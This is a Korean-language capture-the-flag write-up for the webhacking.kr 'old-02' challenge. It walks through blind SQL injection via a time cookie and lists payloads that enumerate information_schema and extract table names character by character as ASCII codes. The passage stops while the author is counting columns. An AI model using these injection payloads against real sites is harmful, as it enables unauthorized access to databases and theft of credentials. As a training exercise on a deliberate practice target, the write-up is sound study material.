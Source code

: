 # [webhacking]old-02

https://webhacking.kr/

https://power-girl0-0.tistory.com/490

https://poci.tistory.com/100

https://wisdom-990629.tistory.com/entry/Webhackingkr-old-02%EB%B2%88-%EB%AC%B8%EC%A0%9C-%ED%92%80%EC%9D%B4

<br>

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%201.png)

아무것도 없는 글만 있는 페이지이다. 클릭도 없고 뭐도 없다.

개발자 도구(F12)를 이용해 쿠키를 보겠다. time 쿠키 값이 있다.

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%202.png)

HTML 코드를 보자.

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%203.png)

여기서 주석 문구에 힌트가 있는거 같다. 두 가지의 힌트를 얻을 수 있다.

admin.php 페이지 유추, time 쿠키와 관련되어 있어보이는 날짜 값

```html
<!--
2022-12-08 09:39:27
-->

<!-- if you access admin.php i will kick your ass -->
```

admin.php 페이지에 접속이 된다.

패스워드 입력 창이 나온다.

SQL Injection, XSS 등등 공격을 해봤지만 되지 않는다.

날짜 값을 확인해봐야 겠다.

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%204.png)

쿠키 값에 바꿔봤더니 값에 따라 쿠키 값이 바뀐다.

```html
time=1
>>>
<!--
2070-01-01 09:00:01
-->

time=2
>>>
<!--
2070-01-01 09:00:02
-->
```

blind sql 공격 구문 입력했다.

blind sql 공격이 성공 하는 모습. 참이면 1 거짓이면 0이 된다.

blind sql로 데이터베이스 값을 추출해 패스워드까지 알아보겠다.

~~union, error based 다 안되더라~~

```html
time=2 and 1=1
>>>
<!--
2070-01-01 09:00:01
-->

time=1 and 1=1
>>>
<!--
2070-01-01 09:00:01
-->

time=2 and 1=0
>>>
<!--
2070-01-01 09:00:00
-->
```

테이블명 알아내기 - 테이블 갯수 구하기

테이블 수는 2개 확인

```html
time=(select count(table_name) from information_schema.tables where table_schema=database())
>>>
<!--
2070-01-01 09:00:02
-->
```

테이블명 알아내기 - 각각 테이블 길이 구하기

각각 13, 3 의 길이

```html
time=(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
>>>
<!--
2070-01-01 09:00:13
-->

time=(select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)
>>>
<!--
2070-01-01 09:00:3
-->
```

테이블명 알아내기 - 각각 테이블 명 추출, 아스키코드 값으로

이런식으로 하나 씩 늘려가면서 다 찾아본다. 귀찮다면 파이썬 스크립트를 만들어도 되고 나는 할줄 몰라서 버프의 intruder를 이용했다.


```html
time=(select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)
>>>
<!--
2070-01-01 09:01:37
-->

time=(select ascii(substr(table_name,2,1)) from information_schema.tables where table_schema=database() limit 0,1)
>>>
<!--
2070-01-01 09:01:40
-->
```

![](../img/Study%20Img/%5Bwebhacking%5Dold-02%20-%205.png)

그렇게 나온 아스키 코드 값을 변환해주면

각각 admin_area_pw, log 가 나온다.

이렇게 테이블 명을 구했다.

```
97 100 109 105 110 95 97 114 101 97 95 112 119
>>>
admin_area_pw

108 111 103
>>>
log
```

컬럼 명 구하기 - 컬럼 갯수 구하기

패스워드는 admin 테이블에 있을거 같으니 먼저 했다.

```html
test=(select count(column_name) from information_schema.columns where table_name='admin_area_pw')
>>>
<!--
2070-01-01 09:00:01
-->
```